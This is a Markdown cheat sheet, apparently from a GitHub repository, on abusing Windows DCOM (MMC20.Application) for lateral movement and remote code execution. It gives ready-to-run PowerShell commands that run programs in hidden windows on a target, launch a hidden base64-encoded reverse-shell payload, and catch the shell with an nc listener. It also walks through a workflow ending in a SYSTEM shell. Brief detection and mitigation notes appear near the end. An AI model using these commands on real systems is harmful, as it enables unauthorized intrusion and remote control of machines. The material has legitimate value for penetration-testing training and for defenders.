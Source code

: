 # **DCOM Lateral Movement Cheat Sheet**  
*Abuse Distributed Component Object Model (DCOM) for remote code execution.*  

---

#### **Conditions for Success**  
1. **Local Admin Rights**:  
   - Attacker must have **local admin privileges** on the target.  
2. **Network Access**:  
   - **Port 135/TCP (RPC)** open between attacker and target.  
3. **DCOM Enabled**:  
   - DCOM must be enabled (default on Windows).  

---

### **Steps & Examples**  

#### **1. Instantiate DCOM Object**  
*Use PowerShell to create a remote MMC Application object:*  
```powershell
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","<TARGET_IP>"))
```  
- Replace `<TARGET_IP>` with the target machine’s IP/hostname.  

---

#### **2. Execute Commands**  
*Leverage the `ExecuteShellCommand` method to run commands:*  
```powershell
$dcom.Document.ActiveView.ExecuteShellCommand("cmd", $null, "/c calc", "7")
```  
- **Command**: `cmd` (executes `calc` via `/c calc`).  
- **WindowState**: `"7"` (hidden window).  

---

#### **3. Reverse Shell (Advanced)**  
**Step 1: Generate Base64 Payload**  [PowerShell_RCE](https://github.com/MGamalCYSEC/ReverseShellCrafter/tree/main/PowerShell)
**Step 2: Execute Payload via DCOM**  
```powershell
$dcom.Document.ActiveView.ExecuteShellCommand("powershell", $null, "-nop -w hidden -e <BASE64_PAYLOAD>", "7")
```  
- Replace `<BASE64_PAYLOAD>` with your encoded shell.  

---

### **Verification**  
**On Target**:  
```powershell
tasklist | findstr "win32calc"   # Verify process execution.
```  
**On Attacker**:  
```bash
nc -lnvp 443   # Catch reverse shell.
```  

---

### **Tools & Commands**  
| **Task**               | **Command**                                                                 |  
|-------------------------|-----------------------------------------------------------------------------|  
| **Basic Command**       | `ExecuteShellCommand("cmd", $null, "/c <COMMAND>", "7")`                   |  
| **Reverse Shell**       | Use `msfvenom` to generate payload + inject via DCOM.                      |  

---

### **Key Notes**  
- **Session 0 Execution**:  
  - Commands run in **Session 0** (non-interactive). Use `-WindowStyle Hidden` for stealth.  
- **Detection**:  
  - **Event ID 4688**: Process creation from `mmc.exe` or `DllHost.exe`.  
  - **Network**: Traffic on port 135 (RPC).  
- **Mitigation**:  
  - Disable DCOM via `dcomcnfg` > Component Services > Computers > My Computer > Properties > COM Security > Disable DCOM.  
  - Restrict local admin privileges.  

---

### **Example Workflow**  
1. **Compromise a workstation** (e.g., `CLIENT74`) as a local admin.  
2. **Instantiate DCOM object** targeting `FILES04` (192.168.50.73).  
3. **Execute `calc`** to verify access.  
4. **Generate a reverse shell** and gain a SYSTEM shell on `FILES04`.  

---

### **References**  
- [Microsoft DCOM Docs](https://learn.microsoft.com/en-us/windows/win32/com/the-component-object-model)  
- [Cybereason DCOM Research](https://www.cybereason.com/blog/dcom-lateral-movement-techniques)  
